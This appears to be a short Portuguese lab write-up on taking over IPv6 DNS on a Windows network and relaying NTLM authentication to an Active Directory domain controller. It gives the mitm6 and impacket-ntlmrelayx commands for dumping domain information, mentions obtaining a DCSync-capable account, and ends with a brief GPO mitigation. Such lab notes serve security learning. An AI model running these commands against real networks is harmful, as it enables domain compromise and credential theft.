







## Definição

Na instalação de um sistema operativo _Windows_ por defeito temos no interface de rede o protocolo IPV6 activo, devido a isso existe trafego por IPV6 para a rede. Um exemplo pratico são as queries DNS que saem por IPV6, como normalmente o nosso servidor DNS não responde a IPV6 podemos-nos colocar como um servidor DNS malicioso que irá escutar todos os pedidos e aceder aos pedidos de autenticação, sejam eles por exemplo LDAP ou SMB.

## Cenário

## Exploração (PoC)

iniciamos o nosso _listner_ IPV6 e fazemos relay para o nosso controlador de dominio.

```
mitm6 -d insecure.local
```



```
sudo impacket-ntlmrelayx -6 -t ldaps://192.168.0.100 -wh fakewpad.insecure.local -l lab/labad/lootme
```



Após um login ou uma máquina ficar activa verificamos que o trafego IPV6 é _relayed_ para o nosso controlador de dominio, desta forma ficamos com muita informação sobre o dominio.





Ao abrirmos estes ficheiros ficamos com muita informação do dominio, podendo-se verificar que utilizadores existem e a que grupos pertencem,



**Caso algum administrador de dominio** faça login é criado um user de forma automática com permissões de DCSync o que nos permitirá evoluir para outro tipo de exploração.





# Mitigação

Devemos desabilitar por GPO a aplicação das configurações IPV6 na nossa organização, caso não esteja em uso.
